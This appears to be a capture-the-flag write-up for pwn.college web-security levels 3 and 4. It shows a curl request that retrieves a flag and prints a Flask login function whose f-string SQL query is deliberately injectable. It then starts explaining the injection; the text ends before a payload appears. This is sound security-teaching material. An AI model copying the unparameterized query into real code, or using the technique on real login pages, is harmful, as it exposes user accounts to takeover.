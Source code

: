 * when i use the curl with the parameter `user=1` i got the flag.

```sh
hacker@web-security-level-3:~$ curl http://challenge.localhost:80?user=1
pwn.college{Flag_here} 
```

## Web-security level 4

* This challenge is about exploiting the login page using sql injection.

> Source Code :
```py
def level4():                                                                                   
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),                                                                        
               (flag,))                         
                                                
    if request.method == "POST":          
        username = request.form.get("username")                   
        password = request.form.get("password")
        assert username, "Missing `username` form"                                                                                  
        assert password, "Missing `password` form"                                                                                  
                        
        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"     

        session["user"] = int(user["rowid"])                      
        return redirect(request.path)                             

    if session.get("user"):                                       
        user_id = int(session.get("user", -1))                    
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()                                             
        if user:                 
            username = user["username"]                           
            if username == "flag":                                
                return f"{flag}\n"                                
            return f"Hello, {username}!\n"                        

    return form(["username", "password"])                         
```
* In function `level4` the query uses `{username}` & `{password}` parameter inside the curly brackets, which is allow us to inject our own Sql Query.
* At the end it return the flag, so we need to query about flag.
* Here is the query
  
```sql
-- This is Our Original Query.
user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()


-- This is how query looks like.
SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"


-- When we pass our username and pass it's look something like this.
SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"
                                              admin                      secret_pass
SELECT rowid, * FROM users WHERE username = "admin" AND password = "secret_pass"

```